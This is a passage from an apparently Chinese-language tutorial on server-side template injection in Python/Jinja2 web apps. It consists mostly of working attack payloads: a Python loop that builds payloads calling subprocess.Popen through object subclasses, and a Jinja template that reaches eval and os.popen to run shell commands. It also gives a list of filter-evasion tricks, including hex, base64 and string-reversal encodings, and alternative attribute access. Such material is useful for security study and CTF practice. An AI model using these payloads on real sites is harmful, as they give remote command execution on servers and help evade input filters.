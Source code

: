 ```
print("index of subprocess.Popen:" + str(index))
print("payload:`{``{`''.__class__.__mro__[2].__subclasses__()[%d]('ls',shell=True,stdout=-1).communicate()[0].strip()`}``}`" % i)
```

那么我们也可以利用``{`%for%`}``语句块来在服务端进行fuzz

```
`{`% for c in [].__class__.__base__.__subclasses__() %`}`
  `{`% if c.__name__=='catch_warnings' %`}`
  `{``{` c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('&lt;command&gt;').read()") `}``}`
  `{`% endif %`}`
`{`% endfor %`}`
```



## 0x02 一些Trick
<li>Python 字符的几种表示方式
<ul>
<li>16进制 `\x41`
</li>
<li>8进制 `\101`
</li>
<li>unicode `\u0074`
</li>
- base64 `'X19jbGFzc19f'.decode('base64')` python3
<li>join `"fla".join("/g")`
</li>
<li>slice `"glaf"[::-1]`
</li>
<li>lower/upper `["__CLASS__"|lower`
</li>
<li>format `"%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)`
</li>
<li>replace `"__claee__"|replace("ee","ss")`
</li>
<li>reverse `"__ssalc__"|reverse`
</li>- python字典或列表获取键值或下标的几种方式
```
dict['__builtins__']
dict.__getitem__('__builtins__')
dict.pop('__builtins__')
dict.get('__builtins__')
dict.setdefault('__builtins__')
list[0]
list.__getitem__(0)
list.pop(0)
```
<li>SSTI 获取对象元素的几种方式
<ul>
- `class.attr`
- `class.__getattribute__('attr')`
- `class['attr']`
- `class|attr('attr')`
- `"".__class__.__mro__.__getitem__(2)`
- `['__builtins__'].__getitem__('eval')`
- `class.pop(40)`
```
request.args.name    #GET name
request.cookies.name #COOKIE name
request.headers.name #HEADER name
request.values.name  #POST or GET Name
request.form.name    #POST NAME
```